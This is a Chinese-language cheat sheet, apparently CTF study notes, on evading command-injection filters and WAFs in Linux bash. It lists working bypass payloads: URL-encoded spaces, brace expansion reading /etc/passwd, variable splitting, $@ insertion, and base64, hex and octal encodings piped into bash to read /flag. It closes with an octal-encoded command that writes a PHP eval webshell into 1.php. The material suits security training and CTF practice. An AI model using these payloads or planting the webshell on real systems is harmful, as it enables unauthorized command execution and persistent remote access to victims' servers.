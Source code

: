 **使用url编码绕过**

Linux bash可以使用%20(space)、%09(tab)、%3c(<)以及+来绕过

**花括号拓展{OS_COMMAND,ARGUMENT}**

在Linux bash中还可以使用{cat,/etc/passwd}来绕过
base64编码绕过

**变量控制**
```
$ X=$'cat\x20/flag'&&$X
flag{xxx}

$ X=$'cat\x09/flag'&&$X
flag{xxx}
```

**采用$@绕过**
```
$ c$@at /fl$@ag
flag{xxx}

$ echo i$@d
id

$ echo i$@d|$0
uid=0(root) gid=0(root) groups=0(root)
```

#### 绕过WAF绕过
**变量控制**
```
$ a=l;b=s;$a$b
bin  boot  dev	etc  home  lib	lib64  media  mnt  opt	proc  root  run  sbin  srv  sys  tmp  usr  var

$ a=c;b=at;c=flag;$a$b $c
flag{xxx}
```

**编码绕过**
```
$ echo "Y2F0IC9mbGFn"|base64 -d|bash
flag{xxx}

#base64_endcode("cat /flag") => Y2F0IC9mbGFn
#base64可能会出现/

$ echo "636174202f666c6167" | xxd -r -p|bash	#hex 十六进制编码
flag{xxx}

$ $(printf "\154\163")							#oct
bin  boot  dev	etc  flag  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var

$ $(cat /flag)
bash: flag{xxx}: 未找到命令

$ $(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67")
flag{xxx}

$ {printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|$0
flag{xxx}

#可以通过这样来写webshell,内容为<?php @eval($_POST['c']);?>
$ {printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php
```